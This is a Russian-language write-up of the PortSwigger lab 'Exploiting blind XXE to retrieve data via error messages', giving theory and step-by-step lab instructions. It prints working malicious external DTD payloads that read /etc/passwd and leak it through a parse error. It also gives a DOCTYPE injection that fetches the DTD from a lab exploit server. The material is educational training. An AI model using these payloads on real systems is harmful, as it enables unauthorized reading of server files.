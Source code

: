 # Exploiting blind XXE to retrieve data via error messages

## Theory

<h3>Использование слепого XXE для извлечения данных через сообщения об ошибках</h3>

Альтернативным подходом к использованию слепого XXE является инициирование ошибки синтаксического анализа XML, когда сообщение об ошибке содержит конфиденциальные данные, которые вы хотите получить. Это будет эффективно, если приложение вернет результирующее сообщение об ошибке в своем ответе.

Вы можете вызвать сообщение об ошибке синтаксического анализа XML, содержащее содержимое файла /etc/passwd, с помощью вредоносного внешнего DTD следующим образом:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Это DTD выполняет следующие шаги:

* Определяет сущность параметра XML, называемую файлом, содержащую содержимое файла /etc/passwd.
* Определяет сущность параметра XML с именем eval, содержащую динамическое объявление другой сущности параметра XML с именем error. Сущность ошибки будет оцениваться путем загрузки несуществующего файла, имя которого содержит значение сущности файла.
* Использует сущность eval, которая вызывает выполнение динамического объявления сущности ошибки.
* Использует объект ошибки, так что его значение оценивается при попытке загрузить несуществующий файл, что приводит к сообщению об ошибке, содержащему имя несуществующего файла, который является содержимым файла /etc/passwd.

Вызов вредоносного внешнего DTD приведет к появлению сообщения об ошибке, подобного следующему:
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/1.png)

Выберем любой продукт.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/2.png)

Перейдем на его страницу и спустимся в самый низ.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/3.png)

Нажмем на кнопку "Check stock" и перехватим запрос. Отправляем его в Repeater.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/4.png)

У нас есть подготовленный exploit server. Перейдем к нему.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/5.png)

В поле Body впишем наш эксплоит, который будет вызываться с помощью XXE. Код эксплоита:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/6.png)

Затем скопируем URL-адрес ведущий на наш эксплоит.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/7.png)

Модифицируем запрос. Вставляем скопированный URL-адрес. Отправляем запрос. Код экплоита:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a860065037c3f30c0d761b401850080.web-security-academy.net/exploit"> %xxe;]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/8.png)

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_retrieve_data_via_error_messages/assets/9.png)
